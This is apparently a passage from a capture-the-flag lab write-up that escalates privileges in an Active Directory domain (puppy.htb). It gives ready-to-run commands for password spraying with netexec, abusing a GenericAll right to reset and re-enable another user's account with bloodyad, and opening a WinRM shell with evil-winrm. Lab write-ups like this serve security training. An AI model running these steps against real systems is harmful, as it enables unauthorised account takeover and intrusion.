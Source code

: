 -----

## Further Privilege Escalation & Administrator Access

The discovered `ant.edwards` credentials are used to gain control over `adam.silver` and ultimately access the server.

### Password Spraying & `ant.edwards` Access

1.  **Get User List:** Extract a list of usernames from BloodHound data (e.g., from `users.json`).

    ```bash
    jq -r '.data[] | .Properties.sAMAccountName' <bloodhound_data.json> > users.txt
    ```

2.  **Password Spray (for confirmation of `ant.edwards`):**

    ```bash
    netexec smb 10.10.11.70 -U users.txt -P passwords.txt --continue-on-success
    ```

      * `passwords.txt`: A file containing discovered passwords (including `Ant-Man2025`).

    This confirms `ant.edwards` can authenticate.

3.  **Analyze `ant.edwards` in BloodHound:**
    `ant.edwards` is a member of `Senior Developers`, which has `GenericAll` over **`adam.silver`**. This allows `ant.edwards` to change `adam.silver`'s password.

### Take Over `adam.silver`'s Account

1.  **Change `adam.silver`'s Password:**

    ```bash
    bloodyad set-password --identity adam.silver -u ant.edwards -p 'Ant-Man2025' --new-password 'PleaseSubscribe!' --host puppy.htb --domain puppy.htb
    ```

2.  **Test `adam.silver`'s Account:**

    ```bash
    netexec smb 10.10.11.70 -u adam.silver -p 'PleaseSubscribe!'
    ```

    This reveals the account is **disabled**.

3.  **Re-enable `adam.silver`'s Account:**

    ```bash
    bloodyad remove-uac-flag --identity adam.silver -u ant.edwards -p 'Ant-Man2025' --flag ACCOUNTDISABLE --host puppy.htb --domain puppy.htb
    ```

4.  **Gain WinRM Access as `adam.silver`:**

    ```bash
    evil-winrm -i 10.10.11.70 -u adam.silver -p 'PleaseSubscribe!'
    ```
